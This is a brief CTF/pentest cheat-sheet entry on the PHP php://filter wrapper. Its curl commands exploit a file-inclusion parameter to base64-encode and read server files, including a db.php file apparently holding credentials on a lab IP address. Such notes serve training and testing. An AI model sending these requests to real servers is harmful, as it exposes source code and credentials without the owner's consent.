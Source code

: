 # PHP Wrapper

### &#x20;php::filter:

In CTF, it typically hides sensitive information like credentials in the source code.&#x20;

{% code overflow="wrap" %}
```bash
Kali> curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
	
#This forces PHP to base64 encode the file before it is used in the require statement.
	
curl "https://10.10.190.166/dev/index.html?view=php://filter/convert.base64-encode/resource=index.html"
	
curl "https://10.10.190.166/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\db.php" 

```
{% endcode %}


